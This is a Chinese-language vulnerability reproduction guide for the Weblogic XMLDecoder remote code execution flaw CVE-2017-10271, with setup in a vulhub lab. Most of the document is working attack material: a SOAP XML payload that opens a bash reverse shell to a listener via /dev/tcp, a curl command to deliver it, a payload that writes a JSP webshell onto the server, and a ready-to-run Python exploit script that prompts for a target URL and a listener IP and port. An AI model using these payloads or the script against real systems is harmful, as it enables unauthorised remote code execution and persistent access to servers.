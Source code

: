 # Weblogic XMLDecoder 远程代码执行漏洞 CVE-2017-10271

## 漏洞描述

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

## 影响版本

```
Weblogic 10.3.6.0.0
Weblogic 12.1.3.0.0
Weblogic 12.2.1.0.0
Weblogic 12.2.1.2.0
```

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2017-10271
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:7001 正常即可![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091225400.png)

## 漏洞复现

对 http://xxx.xxx.xxx.xxx:7001/wls-wsat/CoordinatorPortType 进行访问，存在这个url则可能存在漏洞

```plain
其他可利用URL
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091225406.png)

使用POST方法上传以下数据反弹一个shell

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

使用Curl反弹shell (将上面的xml数据保存为poc.xml)

```shell
curl -v -X POST -H "Content-Type: text/xml" --data @poc.xml "http://xxx.xxx.xxx.xxx:7001/wls-wsat/CoordinatorPortType"
```

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091225539.png)

也可以通过漏洞写入webshell文件

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问 http://xxx.xxx.xxx.xxx:7001/bea_wls_internal/test.jsp 即可得到写入的文件

## 漏洞POC

利用 [weblogic-scan](https://github.com/kingkaki/weblogic-scan)快速检测

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091225528.png)

- 反弹shell exp

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Weblogic 10.3.6.0.0            \033[0m')
    print('+  \033[34m         Weblogic 12.1.3.0.0            \033[0m')
    print('+  \033[34m         Weblogic 12.2.1.0.0            \033[0m')
    print('+  \033[34m         Weblogic 12.2.1.2.0            \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2017-10271.py      \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:7001  \033[0m')
    print('+  \033[36mCmd    >>> shell(反弹shell)              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, IP, PORT):
    vuln_url = target_url + "/wls-wsat/CoordinatorPortType"
    headers = {
        "Content-Type": "text/xml",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    data = """
        <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java version="1.4.0" class="java.beans.XMLDecoder">
        <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
        <void index="0">
        <string>/bin/bash</string>
        </void>
        <void index="1">
        <string>-c</string>
        </void>
        <void index="2">
        <string>bash -i &gt;&amp; /dev/tcp/%s/%s 0&gt;&amp;1</string>
        </void>
        </array>
        <void method="start"/></void>
        </java>
        </work:WorkContext>
        </soapenv:Header>
        <soapenv:Body/>
        </soapenv:Envelope>
    """ % (IP,PORT)
    try:
        response = requests.request("POST", url=vuln_url, headers=headers, data=data)
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    POC_1(target_url, IP, PORT)
```

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091225540.png)

